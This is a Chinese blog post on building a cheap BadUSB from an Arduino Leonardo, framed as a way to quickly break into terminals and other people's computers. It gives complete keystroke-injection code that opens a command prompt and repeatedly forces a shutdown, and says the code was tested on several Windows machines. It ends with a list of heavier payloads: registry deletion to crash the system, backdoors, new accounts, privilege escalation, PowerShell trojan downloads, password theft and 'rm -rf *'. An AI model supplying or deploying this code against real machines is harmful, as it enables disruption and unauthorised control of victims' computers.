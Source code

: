 ```yaml
---
title: Arduino Leonardo 打造 Bad USB
date: 2016-11-27 02:48:23
tags: hack 
categories: hack
permalink: badusb
---
```


嘿嘿嘿，又是一篇猥琐小文。

<!--more -->

# 简介

什么是Bad USB？

![](/content/images/badusb/0.jpg)

BadUSB最可怕的一点是恶意代码存在于U盘的固件中，由于PC上的杀毒软件无法访问到U盘存放固件的区域，因此也就意味着杀毒软件和U盘格式化都无法应对BadUSB进行攻击。

简单来说，就是让USB设备伪装成但却充当键盘，被插入的电脑猝不及防会被迅速输入一定的“指令”，这个指令会让该电脑迅速成为肉鸡。

# 目标

打造一个廉价Bad USB，实现对 终端机、别人的电脑快速合法化入侵。

![](/content/images/badusb/1.jpg)


# 原料
1. Arduino Leonardo
2. 普通安卓USB线

# 举个🌰

比如我们要实现一个插入优盘就让对方电脑关机的功能：

用Arduino开发者工具，选择

![](/content/images/badusb/2.jpg)

Arduino Leonardo

然后把程序烧录进去

```C
#include <Keyboard.h>

void setup() {//初始化
   Keyboard.begin();//开始键盘通讯 
  delay(5000);//延时
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  delay(500); 
  Keyboard.println("CMD");
  delay(500); 
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(3000); 
  Keyboard.println("shutdown -s -t 10");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯 
}
void loop()//循环
{
   Keyboard.begin();//开始键盘通讯 
  delay(5000);//延时
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  delay(500); 
  Keyboard.println("CMD");
  delay(500); 
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(3000); 
  Keyboard.println("shutdown -s -t 10");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯 
}
```

已经在多台Windows电脑上试验成功。


# 效果
![](/content/images/badusb/preview.gif)

# 进阶

当然，你可以实现很多功能

- 删除系统关键注册表使之蓝屏
- 留后门
- 新建用户
- 用户提权
- 调用Powershell下载木马
- 调用Powershell下载木马及从内存中提取出当前用户的Windows密码
- rm -rf *

此外，发现了一个专门收集Badusb的Github用户，非常有学习价值。

https://github.com/Xyntax/BadUSB-code

# 参考
http://www.extremetech.com/extreme/191467-badusb-returns-hackers-publish-code-that-could-infect-millions-of-usb-devices

http://www.freebuf.com/sectool/107242.html

http://www.freebuf.com/articles/terminal/53886.html

